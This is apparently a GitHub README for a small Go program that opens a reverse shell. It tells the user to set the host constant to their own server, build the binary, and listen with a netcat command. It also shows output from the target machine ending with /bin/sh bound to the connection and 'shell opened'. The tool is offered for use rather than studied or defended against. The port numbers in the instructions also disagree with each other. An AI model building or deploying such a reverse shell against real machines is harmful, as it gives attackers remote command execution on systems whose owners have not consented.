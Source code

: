 # reverse-shell-go

### Simple reverse shell written in go

To use: 
- Set the host address near the top to your server. `const host = "127.0.0.1:1234`
- Build using `go build main.go`
- Start listening on the server using `netcat -l -p 8080`

Example output on target
```
github.com/orf1/reverse-shell-go
Attempting to establish tcp connection with server
dial tcp 127.0.0.1:8080: connect: connection refused
Attempting to establish tcp connection with server
Detecting operating system
Detected mac or linux, using /bin/sh
binding standard interfaces to connection
shell opened
```
<img width="572" alt="Screen Shot 2022-08-08 at 2 47 48 PM" src="https://user-images.githubusercontent.com/39539212/183520624-33592bda-2509-435b-8eb3-a5b04f590eb7.png">
